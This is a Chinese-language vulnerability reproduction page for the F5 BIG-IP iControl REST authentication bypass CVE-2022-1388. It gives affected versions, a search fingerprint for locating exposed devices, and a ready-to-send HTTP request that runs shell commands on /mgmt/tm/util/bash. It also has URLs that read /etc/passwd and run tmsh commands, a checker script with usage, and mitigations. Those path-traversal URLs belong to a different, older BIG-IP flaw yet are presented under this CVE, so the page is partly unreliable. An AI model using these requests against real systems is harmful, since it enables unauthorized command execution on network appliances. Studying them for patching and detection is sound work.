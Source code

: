 # 

# F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

```
11.6.1-16.1.2
```

## 网络测绘

```
icon_hash="-335242539"
```

## 漏洞复现

登录页面

![](./images/202205241448502.png)

发送请求包(Host设为localhost)

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![](./images/202205241449854.png)

文件读取：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
RCE 
```

RCE：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

检测脚本：https://github.com/jheeree/CVE-2022-1388-checker/blob/main/CVE-2022-1388.sh

使用方法：

```
./CVE-2022-1388.sh hosts.txt
```

## 漏洞修复

建议升级至最新版本或可参考官方修复建议 Recommended Actions：https://support.f5.com/csp/article/K23605346

在受影响的版本内可执行以下步骤以缓解攻击：

- 通过自身 IP 地址阻止 iControl REST 访问。
- 通过管理界面阻止 iControl REST 访问。
- 修改 BIG-IP httpd 配置。
